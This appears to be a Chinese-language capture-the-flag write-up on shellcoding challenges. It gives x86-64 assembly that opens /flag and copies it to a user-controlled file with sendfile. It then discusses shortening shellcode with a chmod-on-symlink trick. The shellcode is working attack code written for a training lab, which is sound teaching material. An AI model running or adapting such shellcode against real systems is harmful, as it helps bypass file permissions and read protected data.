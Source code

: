 我这里用的是第一种方式. 需要注意的是, `open`的CPP doc中的`flag`和`mode`参数都是八进制的, 不是十进制.
```
.global _start
_start:
.intel_syntax noprefix
        lea eax, [eip + m]
        mov edi, eax
        mov esi, 0
        mov edx, 0
        mov eax, 2
        syscall
        mov ebx, eax

        lea eax, [eip + o]
        mov edi, eax
        mov esi, 65
        mov edx, 511
        mov eax, 2
        syscall

        mov edi, eax
        mov esi, ebx
        mov eax, 40
        mov edx, 0
        mov r10, 0x100
        syscall

        mov eax, 3
        syscall

        mov eax, 60
        mov edi, 0
        syscall
m:
        .string "/flag"
o:
        .string "/home/hacker/key"
```
## level 8, 13, 14
>*Reading 0x12 bytes from stdin*
>*Reading 0xC bytes from stdin*
>*Reading 0x6 bytes from stdin*

level 8, 13, 14这三个都是对shellcode的长度做了限制, 而且越来越短. 为了能让shellcode尽可能的短, 那我们就要减少syscall的数量, 同时保证用到的op code尽量的短.

这里我选择了调用`chmod`, 它只需要3个参数: `rax`syscall id, `rsi`保存指向filename的地址, `rdi`是要设置的权限. 但是文件名`/flag`需要5个byte, 再加上字符串结尾的`0x00`byte, 就占掉了6byte, 剩下的`mov si, 0x4; mov al, 0x5a; syscall`至少需要8byte, 看起来只能通过level 8 0x12byte的限制.

这里就需要用到一个chmod的一个feature, chmod不会改变symbolic links文件本身的权限, 而是改变它指向的文件的权限.
>*chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions. This is not a problem since the permissions of symbolic links are never used. However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file. In contrast, chmod ignores symbolic links encountered during recursive directory traversals.*
